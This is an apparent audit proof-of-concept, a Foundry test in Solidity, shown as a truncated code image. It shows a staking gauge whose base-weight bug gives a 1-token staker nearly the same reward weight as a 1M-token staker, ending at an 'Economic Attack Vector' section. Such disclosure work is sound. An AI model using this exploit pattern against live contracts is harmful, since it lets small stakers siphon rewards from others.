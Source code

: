 ```solidity 
        // Show that _getBaseWeight returns same value regardless of user
        emit log_named_uint("Whale _getBaseWeight", gauge.getBaseWeight(whale));
        emit log_named_uint("Minnow _getBaseWeight", gauge.getBaseWeight(minnow));
        emit log_string("BUG: Both users get same base weight despite different stakes!");
​
        emit log_string("\n=== 3. Staking Phase ===");
        // Setup vastly different stakes
        deal(address(stakingToken), whale, 1_000_000e18);  // 1M tokens
        deal(address(stakingToken), minnow, 1e18);         // 1 token
​
        vm.startPrank(whale);
        stakingToken.approve(address(gauge), 1_000_000e18);
        gauge.stake(1_000_000e18);
        vm.stopPrank();
        emit log_named_uint("Whale stake amount", gauge.balanceOf(whale));
​
        vm.startPrank(minnow);
        stakingToken.approve(address(gauge), 1e18);
        gauge.stake(1e18);
        vm.stopPrank();
        emit log_named_uint("Minnow stake amount", gauge.balanceOf(minnow));
​
        emit log_string("\n=== 4. Reward Distribution Setup ===");
        // Add rewards and show initial state
        deal(address(rewardToken), address(gauge), 100e18);
        emit log_named_uint("Initial reward token balance", rewardToken.balanceOf(address(gauge)));
        
        vm.prank(address(controller));
        gauge.notifyRewardAmount(100e18);
        emit log_named_uint("Initial rewardRate", gauge.rewardRate());
        emit log_named_uint("Initial rewardPerTokenStored", gauge.rewardPerTokenStored());
​
        emit log_string("\n=== 5. Time Passage & Reward Calculation ===");
        vm.warp(block.timestamp + 7 days);
        
        // Show full reward calculation flow
        emit log_named_uint("New rewardPerTokenStored", gauge.rewardPerTokenStored());
        
        // Get user weights - should be same due to _getBaseWeight bug
        uint256 whaleWeight = gauge.getUserWeight(whale);
        uint256 minnowWeight = gauge.getUserWeight(minnow);
        emit log_named_uint("Whale user weight", whaleWeight);
        emit log_named_uint("Minnow user weight", minnowWeight);
        emit log_string("BUG: Weights nearly equal despite 1M:1 stake difference!");
​
        // Calculate earned amounts
        uint256 whaleEarned = gauge.earned(whale);
        uint256 minnowEarned = gauge.earned(minnow);
        emit log_named_uint("Whale earned", whaleEarned);
        emit log_named_uint("Minnow earned", minnowEarned);
​
        emit log_string("\n=== 6. Reward Claims ===");
        // Claim and verify rewards
        vm.prank(whale);
        gauge.getReward();
        vm.prank(minnow);
        gauge.getReward();
​
        uint256 whaleRewards = rewardToken.balanceOf(whale);
        uint256 minnowRewards = rewardToken.balanceOf(minnow);
        
        emit log_string("\n=== Economic Attack Vector ===");
        emit log_named_uint("Minnow stake", 1e18); // 1 token
```